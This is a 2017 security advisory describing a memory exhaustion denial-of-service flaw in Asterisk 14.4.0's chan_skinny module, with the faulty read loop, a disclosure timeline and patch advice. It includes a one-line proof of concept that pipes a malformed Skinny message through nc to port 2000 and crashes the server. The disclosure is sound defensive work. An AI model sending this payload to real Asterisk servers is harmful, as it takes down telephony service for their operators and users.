

# Asterisk Skinny memory exhaustion vulnerability leads to DoS

- Authors: 
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Vulnerable version: Asterisk 14.4.0 with `chan_skinny` enabled
- References: AST-2017-004
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2017-03-asterisk-chan-skinny-crash>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2017-004.html>
- Timeline:
    - Report date: 2017-04-13
    - Digium confirmed issue: 2017-04-13
    - Digium patch and advisory: 2017-05-19
    - Enable Security advisory: 2017-05-23

## Description

Sending one malformed Skinny message to port 2000 will exhaust Asterisk's memory resulting in a crash.

## Impact

Abuse of this issue allows attackers to crash Asterisk when Skinny is exposed to attackers.

## How to reproduce the issue

Start Asterisk and make sure the `chan_skinny` module is loaded. Then execute:

	printf "\x38\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x53\x45\x50\x30\x30\x30\x39" | nc localhost 2000
	
After a few seconds Asterisk will crash since it will be using all of the available memory. Different malformed strings will crash the server faster or slower depending on the amount by which `req->data` is extended.


The malformed message will throw the following errors in Asterisk:

	[Apr  6 09:35:26] WARNING[6893]: chan_skinny.c:7587 skinny_session: Partial data received, waiting (35 bytes read of 52)

while it will loop forever. This is due to the following code:

```c
while (1) {	
	if ((res = read(s->fd, ((char*)&req->data)+bytesread, dlen-bytesread)) < 0) {
		ast_log(LOG_WARNING, "Data read() returned error: %s\n", strerror(errno));
		break;
	}
	bytesread += res;
	if (bytesread >= dlen) {
		if (res < bytesread) {
			ast_log(LOG_WARNING, "Rest of partial data received.\n");
		}
		if (bytesread > dlen) {
			ast_log(LOG_WARNING, "Client sent wrong amount of data (%d), expected (%d).\n", bytesread, dlen);
			res = -1;
		}
		break;
	}

	ast_log(LOG_WARNING, "Partial data received, waiting (%d bytes read of %d)\n", bytesread, dlen);
	if (sched_yield() < 0) {
		ast_log(LOG_WARNING, "Data yield() returned error: %s\n", strerror(errno));
		res = -1;
		break;
	}
}
```

The reason appears to be that `res` always returns 0 so `bytesread` will not grow and the loop never breaks. However `req->data` will continue to expand until all the memory is exhausted. 

This issue was found through basic manual testing, before attempting to start fuzzing `chan_skinny`.



## Solutions and recommendations

Apply fix issued by Asterisk, upgrade to Asterisk 13.15.1, 14.4.1 or 13.13-cert4. Enable Security highly recommends disabling this module.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.